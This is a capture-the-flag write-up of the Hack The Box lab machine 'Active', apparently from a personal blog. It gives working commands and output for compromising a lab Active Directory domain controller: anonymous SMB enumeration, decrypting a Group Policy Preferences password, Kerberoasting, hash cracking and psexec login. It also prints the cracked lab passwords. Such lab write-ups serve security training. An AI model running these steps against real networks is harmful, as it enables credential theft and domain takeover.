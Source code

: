 ```yaml
---
layout: post
title: "Active"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.140.152

sudo nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49162,49166,49168 -oA nmap/active 10.129.140.152

result:
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-03 15:58:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

The backend is operated by Windows. We also found the domain name active.htb, let’s put that in /etc/hosts

There is smb service, lets’ try null authenticiation

```bash
smbclient -N -L //10.129.140.152

result:

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.140.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbmap -H 10.129.140.152

result:
[+] IP: 10.129.140.152:445      Name: active.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

Since we have read permission on Replication, let’s list all the files:

```bash
smbmap  -H 10.129.140.152 -r Replication --depth 10

#Now we download the interesting file -A parameter to match string
smbmap -H 10.129.140.152 -A Groups.xml -q -r Replication --depth 10

mv /home/billy/htb_lab/active/10.129.140.152-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml Groups.xml
```

A critical vulnerability was identified in how `groups.xml` handled sensitive data:

- **Plaintext Passwords**:
    - If a user account (e.g., a local administrator) was configured using `groups.xml`, the password for that account was stored in **plaintext or weakly encrypted** format (AES-256 with a known static key) in the XML file.

If we view the content, we get user SVC_TGS’s hashed password. We can use gpp-decrypt to decrypt the password:

`gpp-decrypt` is a tool used to decrypt passwords that were stored in **Group Policy Preferences (GPP)**. These passwords are stored in an encrypted format but use a **static AES-256 key** that is publicly known, making the encryption essentially useless.

The tool is widely used in penetration testing and red teaming to recover plaintext passwords from GPP configuration files, such as `groups.xml`.

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Now let’s check if the password is valid.

```bash
crackmapexec smb -u SVC_TGS -p GPPstillStandingStrong2k18 --shares active.htb

result:
SMB         active.htb      445    DC               Share           Permissions     Remark                                                                
SMB         active.htb      445    DC               -----           -----------     ------                                                                
SMB         active.htb      445    DC               ADMIN$                          Remote Admin                                                          
SMB         active.htb      445    DC               C$                              Default share                                                         
SMB         active.htb      445    DC               IPC$                            Remote IPC                                                            
SMB         active.htb      445    DC               NETLOGON        READ            Logon server share                                                    
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL          READ            Logon server share 
SMB         active.htb      445    DC               Users           READ 
```

Let’s login and get the flag

```bash
smbclient -U svc_tgs //10.129.140.152/Users

get svc_tgs/Desktop/user.txt
```

Now let’s enumerate AD users

```bash
impacket-GetADUsers -all -dc-ip 10.129.140.152 active.htb/svc_tgs  #Windows is case insensitive

result:
Administrator                                         2018-07-18 20:06:40.351723  2024-12-03 15:56:54.283335 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 19:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 21:14:38.402764  2024-12-03 16:44:09.213914
```

Now let’s use bloodhound to map the network

```bash
bloodhound-python -u svc_tgs -p 'GPPstillStandingStrong2k18' -ns 10.129.140.152 -d active.htb -c all
```

Now start bloodhound and copy and paste all the data in to map the network. Delete bloodhound mapping from previous session.

```bash
MATCH (n) DETACH DELETE n;  #enter in raw query

```

Now we start from our exploited user svc_tgs. We don’t find any objects we are in control of. However, when we search for shortest path to kerberoastable targets under the analysis tab, we see that user Administrator is kerberostable. Let’s use GetUserSPN.py

```bash
impacket-GetUserSPNs -request -dc-ip 10.129.140.152 active.htb/svc_tgs
```

Now save the tgs ticket to a file and crack it with hashcat

```bash
hashcat.exe -m 13100 C:\Users\oahzl\Desktop\shared\admin_nt_hash.txt wordlists\rockyou.txt
```

Now let’s use psexec to login

```bash
impacket-psexec active.htb/Administrator@10.129.140.152 #Ticketmaster1968
```

We have root.txt

- smbmap enumeration
- exploiting groups.xml
- gpp-decrypt
- bloodhound
- Kerberoasting
- GetUserSPN, GetADUsers, psexec
- hashcat NTLM